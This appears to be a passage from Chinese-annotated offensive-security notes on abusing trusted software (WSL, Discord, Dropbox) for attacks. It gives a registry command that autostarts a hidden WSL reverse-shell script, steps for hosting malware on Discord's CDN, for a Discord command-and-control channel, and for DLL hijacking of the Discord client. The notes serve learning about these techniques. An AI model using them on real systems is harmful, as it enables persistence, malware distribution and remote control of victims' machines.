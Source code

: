 ### 10.Windows Subsystem for Linux (WSL)

### Description
在windows操作系统上使用类似linux的环境交互方式

### CMD
```
reg add “HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run” -v screendoor /t REG_SZ /d '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exewindowstyle hidden -c wsl --exec bash /home/themayor/temp.sh"'
```
这里是通过添加注册表项，将一个wsl下存储好的linux的反向shell脚本设置为了开机自启动（这里的注册表路径就是开机自启动的路径）

### 11.Discord

### Description
A social platform（社交平台）.

### CMD
Function-1: 托管恶意文件
```
Create a new discord account. Login and click on the plus sign that says Add a Server on the left hand side. Create a new server, ensure that its public. In the general channel, click on the plus symbol on the message bar and click upload. Fire up Burpsuite and turn proxy intercept mode on, click on the attachment to intercept the request. Right click on the GET request in Burpsuite and click on copy link. Youll now have a direct link to the malware via discords CDN.
```
Discord可以托管文件，但是不会直接提供文件的下载链接，所以这里使用Burp Suite捕获恶意文件上传时的数据包信息，从而直接得到这个恶意文件在Discord上可下载的链接（用于分发）

Function-2: 使用Discord搭建一个C2-通道
```
Follow the instructions per additional tooling provided in references. If you use DiscordGo, you'll have to compile your agent and configure your automation, in addition to making a server, setting up a bot, and configuring the tokens, permissions, and channels.
```
C2通道（Command and Control Channel）是指在网络安全领域中用于攻击者与被感染系统（受控系统或僵尸网络）之间通信的通道。C2通道允许攻击者发送指令（命令）并接收从受控系统返回的数据，通常用于恶意活动，如数据窃取、远程控制、恶意软件更新等

Function-3:利用Discord本地程序进行dll注入
```
Attach ProcMon and start the Discord application. Filter for the values "ProcessName Contains Discord", "Result contains NOT FOUND" and "path ends with .dll" to check for viable abuse candidates. Generate a malicious DLL, and use a tool like Invoke-DLLClone to copy the export address table from your target dll, to your malicious one. Place the newly created DLL into the appropriate application folder, and start discord.
```
使用ProcMon工具检测Discord程序启动时会去加载点dll，以及想要加载但是没找到的dll，攻击者可以自己构造这些dll，实现恶意行动（是不是每个程序都可以呢？）


### 12.Dropbox 

### Description
类似notion的云存储/云笔记工具

